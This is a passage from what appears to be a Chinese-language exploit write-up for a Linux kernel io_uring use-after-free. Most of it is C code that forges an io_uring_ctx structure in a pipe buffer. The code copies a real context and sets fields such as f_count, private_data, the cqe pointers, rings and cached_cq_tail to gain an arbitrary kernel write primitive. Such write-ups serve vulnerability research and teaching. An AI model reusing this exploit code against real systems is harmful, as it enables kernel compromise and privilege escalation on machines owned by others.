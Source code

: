然后确定我们将伪造 io_uring_ctx 的位置：

```
// Here, all we're doing is determing what side of the page the UAF file is on,
// if its on the front half of the page, the back half is our scratch space
// and vice versa
void set_scratch_space(void)
{
    g_scratch = g_pipe_buf;
    if (g_off < 0x500) { g_scratch += 0x500; }
}
```


现在我们还需要进行一次读取，这实际上只是为了让漏洞利用变得更容易。为了避免在触发写入时进行大量调试，我需要确保我伪造的 io_uring_ctx 包含尽可能多的有效字段。如果一开始就使用一个完全为空的对象，那么你就必须对每次 NULL 解除内核panic进行故障排除，并确定哪里出了问题，以及该成员应该具有什么样的值。相反，我选择了复制一个真实 io_uring_ctx 的合法实例，将其内容读取并复制到全局缓冲区。有了良好的基础，我们就可以对伪造对象进行正确设置，以执行任意写入操作，你可以看到我在这里使用了复制并更新了必要的字段：

```
void write_setup_ctx(char *buf, uint32_t what, uint64_t where)
{
    // Copy our copied real ring fd 
    memcpy(&buf[g_off], g_ring_copy, 256);

    // Set f->f_count to 1 
    uint64_t *count = (uint64_t *)&buf[g_off + 0x38];
    *count = 1;

    // Set f->private_data to our scratch space
    uint64_t *private_data = (uint64_t *)&buf[g_off + 0xc8];
    *private_data = g_scratch;

    // Set ctx->cqe_cached
    size_t cqe_cached = g_scratch + 0x240;
    cqe_cached &= 0xFFF;
    uint64_t *cached_ptr = (uint64_t *)&buf[cqe_cached];
    *cached_ptr = NULL_MEM;

    // Set ctx->cqe_sentinel
    size_t cqe_sentinel = g_scratch + 0x248;
    cqe_sentinel &= 0xFFF;
    uint64_t *sentinel_ptr = (uint64_t *)&buf[cqe_sentinel];

    // We need ctx->cqe_cached < ctx->cqe_sentinel
    *sentinel_ptr = NULL_MEM + 1;

    // Set ctx->rings so that ctx->rings->cq.tail is written to. That is at 
    // offset 0xc0 from cq base address
    size_t rings = g_scratch + 0x10;
    rings &= 0xFFF;
    uint64_t *rings_ptr = (uint64_t *)&buf[rings];
    *rings_ptr = where - 0xc0;

    // Set ctx->cached_cq_tail which is our what
    size_t cq_tail = g_scratch + 0x250;
    cq_tail &= 0xFFF;
    uint32_t *cq_tail_ptr = (uint32_t *)&buf[cq_tail];
    *cq_tail_ptr = what;

    // Set ctx->cq_wait the list head to itself (so that it's "empty")
    size_t real_cq_wait = g_scratch + 0x268;
    size_t cq_wait = (real_cq_wait & 0xFFF);
    uint64_t *cq_wait_ptr = (uint64_t *)&buf[cq_wait];
    *cq_wait_ptr = real_cq_wait;
}
```
